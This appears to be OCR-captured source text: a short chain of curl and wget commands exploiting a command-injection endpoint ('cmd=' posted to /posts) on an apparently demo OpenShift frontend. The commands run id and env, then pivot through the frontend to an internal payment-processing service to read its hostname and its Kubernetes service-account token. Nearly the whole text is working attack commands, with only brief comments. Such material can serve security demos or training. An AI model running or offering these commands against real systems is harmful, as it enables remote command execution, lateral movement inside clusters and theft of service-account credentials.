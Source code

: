 


curl -X POST -d "cmd=curl -X POST -d 'cmd=cat /etc/hostname' http://visa-processor-service.payments:8080/posts" http://asset-cache-frontend.apps.ocp.ralvares.com/posts


Using alpine as base image - no curl but wget

#ID from asset-cache
wget -q -O - --post-data 'cmd=id' http://asset-cache-frontend.apps.ocp.ralvares.com/posts

#env
wget -q -O - --post-data 'cmd=wget -q -O - --post-data "cmd=env" http://visa-processor-service.payments:8080/posts' http://asset-cache-frontend.apps.ocp.ralvares.com/posts

#hostname
wget -q -O - --post-data 'cmd=wget -q -O - --post-data "cmd=cat /etc/hostname" http://visa-processor-service.payments:8080/posts' http://asset-cache-frontend.apps.ocp.ralvares.com/posts

#cat token
wget -q -O - --post-data 'cmd=wget -q -O - --post-data "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token" http://visa-processor-service.payments:8080/posts' http://asset-cache-frontend.apps.ocp.ralvares.com/posts